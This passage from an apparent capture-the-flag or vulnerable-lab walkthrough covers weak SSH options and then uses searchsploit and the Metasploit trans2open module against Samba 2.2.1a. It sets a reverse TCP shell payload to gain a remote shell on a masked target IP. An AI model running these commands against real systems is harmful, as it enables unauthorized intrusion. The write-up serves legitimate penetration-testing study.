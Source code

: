 ```
sudo ssh: Use SSH with superuser (admin) permissions.
-oKexAlgorithms=+diffie-hellman-group1-sha1: Allow an older key exchange method.
-oHostKeyAlgorithms=+ssh-dss: Accept a specific, older host key algorithm.
-oPubkeyAcceptedAlgorithms=+ssh-rsa: Use an older public key algorithm.
-c aes128-cbc: Encrypt the connection with a specific cipher (also old).

```

Now we can connect to ssh but we dont know the password so it's of no use.

## Research for possbile exploit

After searching exploit-db and Rapid7

- Found an exploit for **Samba 2.2.1a** [trans2open]
- You can also find this using **searchsploit**

```
$ searchsploit samba 2.2 
```

## Exploiting

- Run Metasploit
```
msf5 > search trans2open
```

And we will find exploit module
```
exploit/linux/trans2open
```
Use it :
```
msf5 > use exploit/linux/trans2open
```
Set the options
```
msf5 exploit(linux/trans2open) > options
msf5 exploit(linux/trans2open) > set rhosts 192.**.***.***
```
You can type 'show targets' for viewing for which target this will be performing
```
msf5 > exploit(linux/trans2open) show targets
```
Now if you directly exploit/run : It will try to run many shells like a bruteforce and possible may not work because connection keeps dying.

Now if we again type **show options**
```
msf5 > exploit(linux/trans2open) > show options
```
Now you'll see more options that says like that the payload has some problems to configure the 'payload options'

**so we're gonna setup a payload!**
```
msf5 exploit(linux/trans2open) > set payload linux/x86/shell_reverse_tcp
msf5 exploit(linux/trans2open) > options
msf5 exploit(linux/trans2open) > run/exploit
```
we'll get a shell if we succeed
